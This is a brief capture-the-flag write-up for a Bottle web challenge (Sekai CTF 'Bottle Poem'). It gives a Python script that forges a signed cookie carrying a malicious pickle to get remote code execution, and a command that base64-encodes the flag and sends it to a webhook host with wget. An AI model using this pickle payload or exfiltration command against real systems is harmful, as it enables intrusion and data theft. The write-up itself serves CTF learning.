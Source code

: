 This one was a copied challenge from Sekai CTF (Bottle Poem).

Solution:
https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/bottle-poem/solution

Script to get RCE:
```
#!/usr/bin/env python3

from bottle import response
import sys

command = sys.argv[1]

class PickleRce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

response.set_cookie('name', {'name': 'admin', 'v': PickleRce()}, secret="trrrrrrrrrrrrryyyyyyyyyyyharddddddddd")
print(f'Cookie: {response.headerlist[1][1]}')
```

To get flag:
```python3 solution-poems.py 'wget webhooklinkhere/?c=`/flag|base64`'```
